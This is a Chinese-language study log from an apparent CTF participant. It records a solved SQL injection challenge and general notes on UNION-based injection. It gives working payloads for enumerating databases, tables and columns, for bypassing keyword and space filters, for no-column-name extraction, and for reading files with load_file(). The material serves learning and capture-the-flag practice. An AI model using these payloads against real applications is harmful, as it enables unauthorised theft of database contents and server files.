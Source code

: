 <a name="q0NFg"></a>
# 本周内容
- 复现寒假打的比赛的内容
- 整理SQL笔记
- 开源情报被榨干
<a name="zJIfJ"></a>
# 成果展示
1.Hacker<br />来自看了一大堆资料的后期我：这题还可以过滤掉`,不需要提示flag在flag表里可以自己查（我真变态）<br />因为这个题我决定整理一下SQL的笔记，因为这也太容易忘了<br />过滤or就使用select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats查表<br />![image.png](https://cdn.nlark.com/yuque/0/2024/png/39135006/1709038011946-8d401673-295e-43c1-bacb-0c5746165b83.png#averageHue=%23484847&clientId=u92c238e2-fe70-4&from=paste&height=1031&id=u8a688b42&originHeight=1031&originWidth=1287&originalType=binary&ratio=1&rotation=0&showTitle=false&size=195968&status=done&style=none&taskId=udef03d2e-62f9-46ac-bb26-13c26ae9514&title=&width=1287)<br />因为这个题可能是直接改的其他题，所以users表里的flag没删干净
```sql
union select (select group_concat(b) from (select 1,2,3 as b union select * from users)x)#
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/39135006/1709039021459-89a44b05-ca5b-4e7a-a0fa-7438c59abaca.png#averageHue=%23484848&clientId=u92c238e2-fe70-4&from=paste&height=1031&id=uf5bca051&originHeight=1031&originWidth=1287&originalType=binary&ratio=1&rotation=0&showTitle=false&size=206107&status=done&style=none&taskId=u230183fc-40e9-4116-864a-eb5adb433f0&title=&width=1287)<br />同样的方法查flag表（字段的数量和users表不一样需要改）
```sql
union/**/select/**/(select/**/group_concat(b)/**/from/**/(select/**/1,2/**/as/**/b/**/union/**/select/**/*/**/from/**/flag)x)#
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/39135006/1709039393940-baf5894d-faa3-4ae9-b700-6154ddf3de5e.png#averageHue=%23484848&clientId=u92c238e2-fe70-4&from=paste&height=1031&id=uc1e16ad5&originHeight=1031&originWidth=1287&originalType=binary&ratio=1&rotation=0&showTitle=false&size=200936&status=done&style=none&taskId=u624dc1ee-b2da-4c73-b154-cd54a64a625&title=&width=1287)<br />这种方法的好处是在过滤`的情况下还可以继续查<br />如果没有过滤`还有一个方法
```sql
select `3` from (select 1,2,3 union select * from admin)a;
//直接查看第三列数据
```
<a name="COYf1"></a>
# SQL做题流程

- fuzz测试过滤
- 检测注入点
- 查回显
- 查库
- 查表
- 查字段
- 查表内内容
<a name="Oxfbm"></a>
# 需要认识的东西
information_schema.columns SQL中自动解析为字段名<br />information_schema.tables SQL中自动解析为表名<br />database() SQL中自动显示库名<br />user() 显示当前用户<br />load_file() 读取任意文件（需要功能开启）<br />如果表名中有空格或特殊字符，一般用``包含起来<br />select hex(load_file(0x633a5c73716c2e747874))可以减少'的使用避免错误<br />select concat() ——> concat_ws()——>group_concat()

|  | concat() | concat_ws() | group_concat() |
| --- | --- | --- | --- |
| 语法 | concat(字符串1, 字符串2,...) 字符串参数用逗号隔开 | concat_ws(separator, str1, str2, ...) 第一个参数指定分隔符, 后面依旧是字符串在查出的表中的特定字段每个字段的数据 | group_concat( distinct 要连接的字段 order by 排序字段 asc/desc  separator '分隔符' ) |
| 用途 | 将查出的数据直接展示 | 将查出的数据分割，展示 | 将group by产生的同一个分组中的值连接起来，返回一个字符串结果。 |

<a name="IMJmN"></a>
# fuzz
--+和#是通用的注释，但是有的题目会过滤掉-，#如果加到url最后时会没动静，需要用%23代替<br />如果只是简单把or select union 等等替换成空了，那直接双写成oorr之类的就可以<br />如果过滤了空格，一般情况下是/**/代替空格
<a name="ZVTbX"></a>
# 检测注入点
如果出现The used SELECT statements have a different number of columns错误就是说明注入点错了，要重新试，就是在union select 后面堆1,2,3...之类的，直到有回显为止<br />![image.png](https://cdn.nlark.com/yuque/0/2024/png/39135006/1708957480225-bcd0ef1c-e928-4a9b-acde-78460eea86ab.png#averageHue=%23514230&clientId=u2a22b883-73ef-4&from=paste&height=1408&id=u581cc470&originHeight=1408&originWidth=2568&originalType=binary&ratio=1&rotation=0&showTitle=false&size=1855916&status=done&style=none&taskId=u5a5a1736-79cf-4044-8066-e9d9acfcf92&title=&width=2568)
<a name="Co0fM"></a>
# 做题方法
<a name="Zc8Pn"></a>
## 基础做题方法：
**注意单引号前面的语句需要为错误的才会执行下一句,如果前一句是正确的则会显示前一句的内容，所以一般单引号前是-1，还有单引号后最好加一个空格如-1' union select ********<br />默认一号位置就是回显点<br />查库：union select database();--+<br />查表：union select group_concat(table_name) from information_schema.tables where table_schema='库名'--+<br />查字段：union select group_concat(column_name) from information_schema.columns where table_name='表名'--+<br />查内容：union select group_concat(字段名) from 库名--+
<a name="CQ8UZ"></a>
## 过滤
<a name="fyudw"></a>
### 过滤or：
```sql
union/**/select/**/(select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats)%23
```
```sql
           database_name: mysql
              table_name: gtid_slave_pos
             last_update: 2017-08-19 20:38:34
                  n_rows: 0
    clustered_index_size: 1
sum_of_other_index_sizes: 0
```
<a name="jDoPy"></a>
#### 无列名注入
使用条件&方法<br />无列名注入主要是适用于已经获取到数据表，但无法查询列的情况下，在大多数 CTF 题目中，information_schema 库被过滤，使用这种方法获取列名。<br />无列名注入的原理其实很简单，类似于将我们不知道的列名进行取别名操作，在取别名的同时进行数据查询，所以，如果我们查询的字段多于数据表中列的时候，就会出现报错。
```sql
select * from admin;
```
```sql
select 1,2,3 union select * from admin;
```
```sql
union select (select group_concat(b) from (select 1,2,3 as b union select * from users)x)#
//其中字段数和回显点因题而异
//最后的x是随意字符
```

